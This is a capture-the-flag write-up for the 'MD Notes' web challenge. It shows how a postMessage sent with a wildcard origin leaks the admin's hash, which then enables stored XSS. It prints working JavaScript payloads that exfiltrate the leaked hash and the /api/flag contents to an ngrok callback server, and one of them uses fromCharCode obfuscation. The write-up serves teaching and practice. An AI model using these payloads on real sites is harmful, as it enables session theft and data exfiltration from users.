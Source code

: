 ```yaml
---
description: postMessage information disclosure leads to stored XSS
---
```


# MD Notes

## Challenge

**Description:** Here's a nice web application to host your notes.

**Author:** [yadhu\#2142](https://twitter.com/YadhuKrishna_)

{% file src="../../.gitbook/assets/md-notes.zip" caption="md-notes.zip" %}

## Solution

We are given a Markdown Editor, where we can save our notes. As usual, an admin bot visits the URLs that we submit.

![](../../.gitbook/assets/screenshot-2021-08-16-at-4.37.36-pm.png)

We're interested in creating an XSS payload, so let's analyse how the application processes our Markdown.

### Preview Function

Interestingly, the preview \(right side\) is an iframe of `/demo`.

```markup
<div class="col-md-6">
    <textarea id="input-area" class="form-control"></textarea>
</div>
<div class="col-md-6">
    <iframe id="frame-area" src="/demo" width="500" height="300"></iframe>
</div>
```

When clicking "Preview", a message is posted to the iframe. Note that the `targetOrigin` parameter is set to `http://${document.location.host}/`. This ensures that the message is only sent to the intended receiver.

```javascript
preview.onclick = function() {
  console.log("Sending Preview..")
	frame.contentWindow.postMessage(textarea.value, `http://${document.location.host}/`); 
	return false;
}
```

In `/demo`, the message is received and processed. The data is POST-ed to the `/api/filter` endpoint, and the sanitized HTML is added to `document.body.innerHTML`. 

```javascript
let area = document.getElementById("safe")

window.addEventListener("message", (event) => {
  console.log("Previewing..")
	let raw = event.data

	fetch("/api/filter", {
		method: "POST",
		credentials: "include",
		body: JSON.stringify({
			raw: raw
		})
	})
    .then(resp => resp.json())
	.then(response => {
		console.log("Filtered")
		document.body.innerHTML = response.Sanitized
		window.parent.postMessage(response, "*"); 
	}); 
}, false);
```

Interestingly, in line 18, the response from the `/api/filter` endpoint is also posted to `window.parent`, with the `targetOrigin` parameter set to `*`. This means that any site can create an iframe of `http://web.challenge.bi0s.in:5432/demo` and receive the message, regardless of its origin.

Notice that the user's cookies are sent along with the POST request. If the `/api/filter` endpoint returns any sensitive, user-specific data based on the user cookies, we would be able to read it! If we analyze the server code for this endpoint, we would know that it indeed returns the hash of the user's token in the response.

```go
func filterHandler(w http.ResponseWriter, r *http.Request) {
	reqBody, _ := ioutil.ReadAll(r.Body)
	w.Header().Set("Content-Type", "application/json")
	var unsanitized Unsanitized

	err := json.Unmarshal(reqBody, &unsanitized)

	if err != nil {
        
		log.Println("Error decoding JSON. err = %s", err)
        fmt.Fprintf(w, "Error decoding JSON.")
		
    } else {
		var cookie, isset = r.Cookie("Token") 
		
		hash, token := createToken()

		sanitized_data := markdown.ToHTML([]byte(sanitize(unsanitized.Raw)), nil, nil)

		if isset == nil {
			if cookie.Value == CONFIG.admin_token {
				hash = CONFIG.admin_hash
				token = CONFIG.admin_token
			}
		} 
		
		cookie = &http.Cookie{Name: "Token", Value: token, HttpOnly: true, Path: "/api"}
		result := Sanitized{Sanitized: string(sanitized_data), Raw: unsanitized.Raw, Hash: hash}
		http.SetCookie(w, cookie)
		json.NewEncoder(w).Encode(result)
	}
}
```

### Obtaining the Admin Hash

Now, we can craft a simple payload that loads `/demo` in an iframe, posts a message to trigger the `/api/filter` POST request in the context of the admin, and catches the response. We then make a callback to our exploit server, sending the admin's hash obtained from the response.

```markup
<script>
    function exploit(){
        document.getElementById("iframe").contentWindow.postMessage("test", "*")
    }
    
    window.addEventListener("message", (event) => {
        var img = new Image();
        img.src = "http://055c4d42189e.ngrok.io/?hash=" + event.data.Hash;
    }, false);
</script>
<iframe src="http://web.challenge.bi0s.in:5432/demo" id="iframe" onload="exploit();"></iframe>
```

We receive the admin's hash on our exploit server:

```text
/?hash=e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
```

However, the admin's hash is not sufficient to access the flag - we need to have access to the admin's token. This requires a CSRF to `/api/flag`, and due to the same-origin policy, we must still cause an XSS on the challenge server.

### Create Function

Now that we have the admin's hash, creating a stored XSS payload is pretty simple. Notice that in the `/api/create` handler, the data is _not_ sanitized if the admin's hash is used.

```go
if createpost.Hash != CONFIG.admin_hash {
    id , _ := uuid.NewV4()
    bucket = id.String()
    data = string(markdown.ToHTML([]byte(sanitize(data)), nil, nil))
} else {
    data = string(markdown.ToHTML([]byte(data), nil, nil))
}
```

Thus, simply sending a POST request to `/api/create` with the admin's hash allows us to create a stored XSS payload.

![](../../.gitbook/assets/image%20%2848%29.png)

We can simply craft a CSRF payload that fetches `/api/flag` and makes a callback to our exploit server with the page contents. Note that single and double quotes are still escaped, so `fromCharCode()` is used to avoid that.

```markup
<script>
    fetch(String.fromCharCode(47, 97, 112, 105, 47, 102, 108, 97, 103))
    .then(function(response) {return response.text();})
    .then(function (text) {
        var img = new Image();
        img.src = String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 48, 53, 53, 99, 52, 100, 52, 50, 49, 56, 57, 101, 46, 110, 103, 114, 111, 107, 46, 105, 111, 47, 63, 100, 97, 116, 97, 61) + encodeURIComponent(text);
    })
</script>
```

Receiving the `/api/flag` contents:

![](../../.gitbook/assets/image%20%2855%29.png)

URL-decode the output, and we get the flag: `inctf{8d739_csrf_is_fun_3d587ec9}`

